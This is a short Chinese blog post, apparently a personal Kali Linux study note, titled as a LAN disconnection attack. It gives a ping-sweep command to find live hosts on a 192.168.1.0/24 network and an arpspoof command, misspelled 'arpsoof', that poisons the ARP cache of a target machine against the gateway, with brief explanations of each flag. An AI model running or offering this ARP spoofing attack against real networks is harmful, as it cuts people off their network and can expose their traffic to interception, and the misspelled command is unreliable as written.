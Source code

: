 ```yaml
---
layout: post
title: Kali学习
date: 2021-11-1
tags: Kali   
---
```



# 局域网断网攻击

>欺骗

1. 查看联网设备数

   ```
   fping -asg 192.168.1.1/24
   ```

2. 攻击

   ```
   arpsoof -i eth0 -t 192.168.1.181 192.168.1.1
   ```

   arpspoof命令
   后面接上与网络有关的-i（interface）
   网卡eth0
   目标-t（target）
   目标IP：192.168.1.181
   目标主机网关192.168.1.1